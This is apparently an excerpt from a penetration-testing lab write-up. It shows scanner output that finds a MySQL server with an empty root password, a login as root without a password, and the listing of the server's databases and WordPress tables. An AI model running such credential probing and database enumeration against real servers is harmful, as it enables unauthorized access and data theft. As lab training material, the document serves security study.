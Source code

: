 ```
[+] 10.0.29.76:3306       - 10.0.29.76:3306 - Found remote MySQL version 5.5.20
[!] 10.0.29.76:3306       - No active DB -- Credential data will not be saved!
[+] 10.0.29.76:3306       - 10.0.29.76:3306 - Success: 'root:'
```

```
root@attackdefense:~# mysql -u root -p '' -h 10.0.29.76
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 16
Server version: 5.5.20-log MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL []> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cards              |
| mysql              |
| performance_schema |
| test               |
| wordpress          |
+--------------------+
6 rows in set (0.003 sec)

MySQL []> exit
Bye
```

Or

```
MySQL [(none)]> use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [wordpress]> show tables;
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| wp_commentmeta            |
| wp_comments               |
| wp_links                  |
| wp_nf_objectmeta          |
| wp_nf_objects             |
| wp_nf_relationships       |
| wp_ninja_forms_fav_fields |
| wp_ninja_forms_fields     |
| wp_options                |
| wp_postmeta               |
| wp_posts                  |
| wp_term_relationships     |
| wp_term_taxonomy          |
| wp_termmeta               |
| wp_terms                  |
| wp_usermeta               |
| wp_users                  |
+---------------------------+
17 rows in set (0.004 sec)

```